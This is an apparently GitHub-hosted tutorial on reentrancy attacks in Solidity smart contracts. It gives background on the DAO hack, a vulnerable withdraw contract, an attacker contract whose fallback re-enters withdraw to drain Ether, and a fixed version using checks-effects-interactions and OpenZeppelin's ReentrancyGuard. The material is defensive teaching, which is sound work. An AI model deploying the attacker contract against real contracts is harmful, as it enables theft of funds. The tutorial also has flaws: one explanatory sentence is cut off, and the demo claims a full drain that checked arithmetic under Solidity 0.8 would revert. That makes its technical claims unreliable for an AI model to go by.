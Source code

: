 ### Reentrancy Attack 

**Description** It occurs when an attacker exploits the ability to repeatedly call a vulnerable function within a contract before the initial execution is complete, thereby manipulating the contract's state and draining its resources or funds.

**Types of Reentrancy Attacks**
1. Mono-Function Reentrancy: This type of Reentrancy occurs when the vulnerable function is the same function that is repeatedly called by the attacker, before the completion of its previous invocations. It is a simpler and more easily detectable form of Reentrancy attack compared to the other two types.

2. Cross-Function Reentrancy: This type of Reentrancy is similar to the Mono-Function Reentrancy, except the function reentered is not the same as the one making the external call. This type of attack is only possible when a vulnerable function shares its state with another function, resulting in an advantageous outcome for the attacker.

3. Cross-Contract Reentrancy: This type of Reentrancy attack takes place when the state of one contract is invoked in another contract before it’s fully updated. It often occurs when multiple contracts manually share a common state variable, and some of them update it in an insecure manner.



In 2016, the notorious `DAO` hack brought this attack into the spotlight. The `DAO` was an investment fund managed by a smart contract. It allowed members to vote on investments based on how many tokens they owned.

In 2016, the DAO was hacked using a Reentrancy attack, where the hacker exploited a vulnerability in the smart contract. This allowed them to steal around $60 million worth of Ether.

To fix the issue, the Ethereum community decided to create a fork—a new version of the blockchain—to undo the hacker's actions and return the stolen funds.
Even though it's been over 7 years since this incident, Reentrancy attacks remain a common problem for smart contracts.

The most recent Reentracy attack was in 30 september 2024 on the `TrustSwap` protocol.
`TrustSwap` is a decentralized Exchange (DEX) protocol that offers a suite of smart contract-based services designed to improve security, flexibility, and trust in transactions involving digital assets. It is particularly focused on cryptocurrency transactions, token launches, and asset management.


**How it Happens**
1. Vulnerable Contract Functionality: A contract has a function that interacts with an external entity (e.g., sending funds to a user) and later updates its internal state (e.g., reducing the user’s balance).

2. Call to External Contract: While executing the vulnerable function, the contract calls an external entity (another contract or address). For example, it sends Ether to the address of a user.

3. Reentrant Call: The external entity (controlled by the attacker) executes malicious code that re-calls the vulnerable function in the original contract before the initial execution completes. This is possible because the blockchain.
   
<details>
<summary>VulnerableContract</summary>

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract VulnerableContract {
    mapping(address => uint256) public balances;

    // Function to deposit Ether
    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    // Function to withdraw Ether
    function withdraw(uint256 _amount) public {
        require(balances[msg.sender] >= _amount, "Insufficient balance");

        // External call before state change - VULNERABLE
        (bool sent, ) = msg.sender.call{value: _amount}("");
        require(sent, "Failed to send Ether");

        // Update state AFTER the external call
        balances[msg.sender] -= _amount;
    }

    // Check the contract balance
    function getBalance() public view returns (uint256) {
        return address(this).balance;
    }
}


```
</details>

<details>
<summary>AttackerContract</summary>

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract AttackContract {
    VulnerableContract public vulnerableContract;

    constructor(address _vulnerableContractAddress) {
        vulnerableContract = VulnerableContract(_vulnerableContractAddress);
    }

    // Fallback function triggered when receiving Ether
    fallback() external payable {
        if (address(vulnerableContract).balance >= 1 ether) {
            // Re-enter the withdraw function
            vulnerableContract.withdraw(1 ether);
        }
    }

    // Start the attack by depositing and withdrawing
    function attack() public payable {
        require(msg.value >= 1 ether, "Need at least 1 Ether to attack");

        // Deposit 1 Ether into the vulnerable contract
        vulnerableContract.deposit{value: 1 ether}();

        // Initiate the first withdraw, triggering the fallback
        vulnerableContract.withdraw(1 ether);
    }

    // Check the balance of this contract
    function getBalance() public view returns (uint256) {
        return address(this).balance;
    }
}

```

</details>

**How it works**
1. The attacker deploys the AttackContract with the address of the VulnerableContract.
2. The attacker calls the attack function, depositing 1 Ether into the VulnerableContract.
3. The attacker calls withdraw, which sends Ether to the AttackContract. This triggers the fallback function, re-entering the withdraw function in a loop before the balance is updated.
4. The attacker drains all the funds from the VulnerableContract.

**Developer Best Practice**
<details>
<summary>Fix Contract</summary>

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

contract SecureContract is ReentrancyGuard {
    mapping(address => uint256) public balances;

    // Function to deposit Ether
    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    // Function to withdraw Ether (Mitigations applied)
    function withdraw(uint256 _amount) public nonReentrant {
        //Checks
        require(balances[msg.sender] >= _amount, "Insufficient balance");
        //Effects
        // Update state BEFORE the external call
        balances[msg.sender] -= _amount;

        // Interaction 
        //happens AFTER the state change
        (bool sent, ) = msg.sender.call{value: _amount}("");
        require(sent, "Failed to send Ether");
    }

    // Check the contract balance
    function getBalance() public view returns (uint256) {
        return address(this).balance;
    }
}

```
</dtails>

**Mitigation Techniques Used**
Checks-Effects-Interactions Pattern:

The `balances[msg.sender] -= _amount;` state update happens before the external call, ensuring the state is correct if reentrancy occurs.

Reentrancy Guard:
The nonReentrant modifier from OpenZeppelin ensures that no function in the contract can be re-entered during execution.

**Testing the Fix**
If the attacker tries the same attack on SecureContract, the reentrant call will fail because:

The balance is already updated, so the require condition `balances[msg.sender] >= _amount` will fail.
The nonReentrant modifier will block any reentrant calls.

**Docs To visit**
https://github.com/pcaversaccio/reentrancy-attacks
